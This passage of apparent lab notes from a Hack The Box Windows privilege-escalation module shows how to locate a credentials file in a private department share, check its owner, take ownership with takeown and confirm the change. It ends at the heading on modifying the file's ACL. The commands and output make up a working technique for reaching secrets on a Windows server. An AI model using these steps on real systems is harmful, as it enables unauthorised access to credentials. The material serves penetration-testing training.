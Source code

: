 ### Choosing a Target File

--> It is common to encounter file shares with Public and Private directories with subdirectories set up by department

```
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
 
FullName                                 LastWriteTime         Attributes Owner
--------                                 -------------         ---------- -----
C:\Department Shares\Private\IT\cred.txt 6/18/2021 12:23:28 PM    Archive
```

### Checking File Ownership

```
cmd /c dir /q 'C:\Department Shares\Private\IT'

 Volume in drive C has no label.
 Volume Serial Number is 0C92-675B
 
 Directory of C:\Department Shares\Private\IT
 
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  .
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  ..
06/18/2021  12:23 PM                36 ...                    cred.txt
               1 File(s)             36 bytes
               2 Dir(s)  17,079,754,752 bytes free

```

### Taking Ownership of the File

https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown

```
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\htb-student".
```

### Confirming Ownership Changed

```
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
 
Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\htb-student
```

### Modifying the File ACL
